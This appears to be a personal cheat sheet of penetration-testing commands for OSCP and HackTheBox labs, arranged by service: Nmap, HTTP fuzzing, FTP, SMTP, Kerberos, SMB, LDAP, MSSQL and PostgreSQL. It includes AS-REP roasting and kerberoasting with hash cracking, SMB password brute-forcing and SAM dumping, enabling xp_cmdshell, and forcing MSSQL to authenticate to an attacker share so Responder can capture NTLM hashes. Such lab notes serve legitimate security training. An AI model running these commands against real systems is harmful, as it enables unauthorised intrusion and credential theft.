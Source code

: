 ```yaml
---
description: All but the easiest HTBs are harder than even the 25 point exam boxes.
---
```


# Enumeration (Commands & Links)

{% embed url="https://sgtdede.gitbook.io/hacking/oscp-2022/guide-en" %}

{% embed url="https://eins.li/posts/oscp-secret-sauce/" %}

{% embed url="https://liodeus.github.io/2020/09/18/OSCP-personal-cheatsheet.html" %}

{% embed url="https://casvancooten.com/posts/2020/05/oscp-cheat-sheet-and-command-reference/#reconnaissance" %}

{% embed url="https://github.com/oncybersec/oscp-enumeration-cheat-sheet" %}

### Nmap

```
nmap -sC -sV -p- $ip -v -oN scan.nmap        (TCP)
nmap -sU --top-ports 20 -oN scan.nmap -vv $ip  (UDP)
-Pn Disables host discovery and only conducts a port scan. 
-A OS/Version Detection
-O Remote OS detection using TCP/IP stack fingerprinting
```

### HTTP/HTTPS (80/443)

<pre><code>(VHost)     ffuf -w /usr/share/wordlists/bitquark-subdomains-top100000.txt -u http://$IP:PORT -h (try -H) 'Host: FUZZ.board.htb' -f(c/s/w)   
(Directory) ffuf -w /usr/share/wordlists/dirb/wordlist.txt -u http://$IP:PORT/FUZZ 
(File fuzzing) ffuf -u http://localhost:3000/FUZZ -w /usr/share/wordlists/dirb/common.txt -e .php,.html,.txt    
(HTTP GET)  ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php?FUZZ=key -fs xxx        
(HTTP POST) ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d '<a data-footnote-ref href="#user-content-fn-1">id=FUZZ</a>' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx  

wfuzz -c -w /usr/share/wordlists/yes.txt -u "http://alert.htb/" -H "Host: FUZZ.alert.htb"

curl --insecure -b "[cookiename]=[value]" -X POST --data "[data]" [URL] (--insecure bypass SSL verification)

nikto -h $ip
</code></pre>

{% embed url="https://cwiki.apache.org/confluence/display/httpd/DistrosDefaultLayout" %}

### FTP (21)

```
wget -r ftp://anonymous:@<IP>    [If you can't see anything or don't really know where you are]
ftp [ip]
passive (Mitigate entering passive mode)
dir
dir
binary (Set to binary mode for proper channel to download bin files)
get [file]
```

### SSH (22)

```
port forwarding (local and remote)
sshuttle
proxychains?
```

### SMTP (25)

```
telnet 10.10.11.14 25
EHLO [emailid]
AUTH LOGIN
[username in base64]
[password in base64]

swaks --to receiver@mail.com --from sender@mail.com --auth LOGIN --auth-user sender@mail.com --header-X-Test "Header" --server <TARGET-IP> --attach file.txt
```

### Kerberos (88)

Golden/Silver ticket loading

```
./kerbrute_linux_amd64 userenum -d <domain>  userlist.txt --dc <domain> -v
./GetNPUsers.py -dc-ip [ip] -request '[domain]/[user]'
./GetNPUsers.py [domain] -dc-ip [ip] -usersfile userlist.txt
./GetNPUsers.py -no-pass -dc-ip [ip] [domain]/[user]
hashcat64 -m 18200 <hash> rockyou.txt -d 1

./GetUserSPNs.py [domain]/[user]:[password] -dc-ip [ip] 
./GetUserSPNs.py [domain]/[user]:[password] -dc-ip [ip] -request <get ticket here>

export KRB5CCNAME=/home/jtripz/htb/rooms/escape/ticket.ccache; faketime -f '+8h' /usr/bin/python3 psexec.py [domain]/[username]@[dc] -k -no-pass
```

### SMB (139/445)

```
NXC
nxc smb [ip]
nxc smb 10.10.11.35 -u userlist.txt -p 'password' [bruteforce usernames, change smb to winrm/ldap or any other protocol you want to test perms for]
nxc smb [host/ip] -u guest -p '' --shares [list shares depending on user access provided]
nxc smb [host] -u [user] -p [password] --sam

SMBCLIENT [INTERACT WITH SMB]
smbclient //[ip]/[share] -N -L [List share with null auth]
smbclient --user username //10.10.11.35/DEV
recurse ON
prompt OFF
mget *
smbclient.py '[domain]/[user]:[pass]@[ip/host] -k -no-pass [Kerberos auth]

SMBMAP
smbmap -H [ip] -u user -p 'password' -r SYSVOL --depth 10
smbmap -H [ip] --download PATH_TO_FILE

RPCCLIENT
rpcclient -U '' -N 10.10.11.35   
rpcclient -U 'user'  10.10.11.35
enumdomusers
enumdomgroups
querygroup [RID]
queryuser [RID]
enumprivs

responder to receive NTLM authentication hashes from services like mysql
smbserver.py
```

#### User Enumeration

```
lookupsid.py guest@[ip] -no-pass
netexec smb [ip] -u guest -p '' --rid-brute
```

{% embed url="https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html" %}

{% embed url="https://www.hackingarticles.in/active-directory-enumeration-rpcclient/" %}

### LDAP (389)&#x20;

```
ldapsearch -H ldap://[ip] -x -s base namingcontexts  [-x simple auth, -s scope]
ldapsearch -H ldap://[ip] -x -b "DC=htb,DC=local" > ldap.anon.out  
ldapsearch -H ldap://[ip] -x -b "DC=htb,DC=local" '(objectClass=Person)'

Windows timestamp to human cus Windows does not follow EPOC, for user and password creation and last pass attempt and all the stuff associated with the above search
ldapsearch -H ldap://[ip] -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName  
ldapsearch -H ldap://[ip] -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName  sAMAccountType

ldapsearch -H ldap://[ip] -x -b "DC=htb,DC=local" '(objectClass=Person)' sAMAccountName sAMAccountType | grep sAMAccountName | awk '{print $2}' > userlist.ldap
```

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap" %}

### MSSQL (1433)

```
.\SQLCMD.EXE -S localhost -U [user] -P [password] -d [database] -Q "select table_name from streamio_backup.information_schema.tables;"

python3 mssqlclient.py [-port {opt}] [domain]/[user]:[password]@[dc] {-windows-auth}
enable_xp_cmdshell
EXECUTE sp_configure 'show advanced options', 1;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami'

sudo responder -I tun0
EXEC master.sys.xp_dirtree '\\10.10.14.9\myshare',1, 1
```

### SQL (3306)

Payload all the things for both please

```
mysql -h [IP] -u [username] -p
```

### PostgreSQL (5432)

```
psql -h localhost -p 5432 -U [user] -d [database]
\list
\c [dbname]
\dt
\d [table] (listing schema for table users)
select * from [table];
```

{% embed url="https://web.archive.org/web/20200309204648/http://0daysecurity.com/penetration-testing/enumeration.html" %}

[^1]: FUZZ=key if you wanna do the opposite

